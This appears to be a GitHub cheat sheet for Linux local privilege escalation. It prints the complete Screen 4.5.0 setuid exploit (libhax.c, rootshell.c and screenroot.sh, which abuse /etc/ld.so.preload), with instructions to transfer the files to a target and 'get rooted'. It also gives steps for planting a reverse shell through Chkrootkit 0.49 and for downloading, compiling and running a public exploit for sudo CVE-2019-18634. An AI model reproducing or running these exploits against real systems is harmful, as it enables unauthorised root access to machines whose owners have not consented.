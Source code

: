 # Linux - CapSuidSudoExploit

All of this is for unique suid, sudo or capabilities. Any common one please check GTFOBins!. You can check the references below for more good site for this :)

- [Capabilities](#capabilities)
- [Suid](#suid)
- [Sudo](#sudo)
- [Exploit](#exploit)
- [References](#references)

# Capabilities

# SUID

- [Screen4.50](#screen450)

### Screen4.50

All of these file do it on your machine first then transfer the file to your targets.

Save the file in libhax.c. Then compile like the command below:
```
# Command to Compile
gcc -fPIC -shared -ldl -o libhax.so libhax.c

# Script To Save (libhax.c)

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Save the file in rootshell.c. Then compile like the command below:
```
# Command to Compile
gcc -o rootshell rootshell.c

# Script To Save (rootshell.c)

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Save the file in screenroot.sh like below:
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

After that please transfer all of the files and chmod 777 all the transfer files on your target machine. Run like below and get rooted!
```
./screenroot.sh
./rootshell
```

Link => [ExploitDB-41154](https://www.exploit-db.com/exploits/41154)


# Sudo


# Exploit

### Chkrootkit (version 0.49)

Link => [Local root exploit in Chkrootkit](https://lepetithacker.wordpress.com/2017/04/30/local-root-exploit-in-chkrootkit/)

```
- '/tmp/update' is executed every time when Chkrootkit is executed so check the cron for find when chkrootkit is launched .
- So make a new file name update in /tmp.
- Put a reverse shell inside update and wait for chkrootkit to execute!
```

### Sudo Password Printed (****)

Link => [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

```
- Sudo versions 1.7.1 to 1.8.30 inclusive are affected but only if the pwfeedback option is enabled in sudoers. 
- You can test using this commands
    -> perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S /bin/bash
    -> if got segmentation fault means you can exploit this.
- wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
- gcc exploit.c -o exploit
- Then run the exploit!
```


# References
[1] https://gtfobins.github.io/

[2] https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

[3] https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/